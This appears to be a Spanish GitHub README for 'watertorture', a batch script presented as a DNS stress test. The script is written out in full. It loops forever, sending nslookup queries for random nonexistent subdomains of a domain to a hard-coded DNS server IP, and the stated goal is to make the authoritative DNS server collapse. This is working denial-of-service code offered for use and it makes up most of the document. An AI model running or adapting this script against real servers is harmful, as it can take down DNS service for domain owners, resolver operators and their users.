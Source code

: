 # watertorture

TEST STRESS DNS "WATER TORTURE"
Multitud de consultas de subdominios aleatorios e inexistententes de mydomain.com. Objetivo colapso del servidor DNS autoritavo donde esta registrado mydomain.com




watertorture.bat ;Water Torture DNS autoritativo con proceso por lotes Bath MS-DOS:
Consultas subdominios aleatorios de un dominio.

@ECHO OFF

ECHO Water Torture DNS autoritativo. (c) hackingyseguridad 2016. Version 1.

:loop

SET/A ran=%random%

NSLOOKUP %ran%.hackingyseguridad.es 196.200.104.106

goto loop

#
# www.hackingyseguridad.com
#

